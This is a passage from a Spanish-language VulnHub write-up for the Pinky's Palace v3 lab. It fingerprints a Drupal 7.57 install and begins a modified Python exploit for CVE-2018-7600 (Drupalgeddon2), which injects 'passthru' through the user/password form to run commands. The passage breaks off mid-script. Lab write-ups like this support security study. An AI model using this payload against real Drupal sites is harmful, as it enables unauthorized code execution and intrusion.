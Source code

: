 ```plaintext
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

Podemos verificar exactamente que versión de Drupal está usando consultando el CHANGELOG.txt.

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-2.png)

Versión 7.57.

Los demás archivos son readme por defecto que proporciona Drupal para tener una idea de como mantener el CMS aunque otros como install/upgrade.php son interesantes pero no tenemos acceso a ellos.

## CVE-2018-7600

En esta versión de Drupal 7.57 es bien conocida la vulnerabilidad CVE-2018-7600 que permite ejecutar código arbitrario en el servidor debido a malas configuraciones en ciertos módulos por defecto llamada [Drupalgeddon](https://nvd.nist.gov/vuln/detail/CVE-2018-7600).

Aunque existen difernetes PoC para este CVE escogí uno sencillo aunque antiguo para modificarlo y hacerlo funcionar correctamente ya que no podremos obtener una shell reversa crearemos una shell semi interactiva.

[Script original](https://github.com/lorddemon/drupalgeddon2/blob/master/drupalgeddon2.py)

Script modificado:

{% raw %}
```python
#!/usr/bin/env python3
# coding: utf-8

import requests
import re
import sys
import os

def exploit(url_target, os_command):
    # Paso 1: Inyección en user/password
    params = {
        'q': 'user/password',
        'name[#post_render][]': 'passthru',
        'name[#markup]': os_command,
        'name[#type]': 'markup'
    }
    data = {
        'form_id': 'user_pass',
```
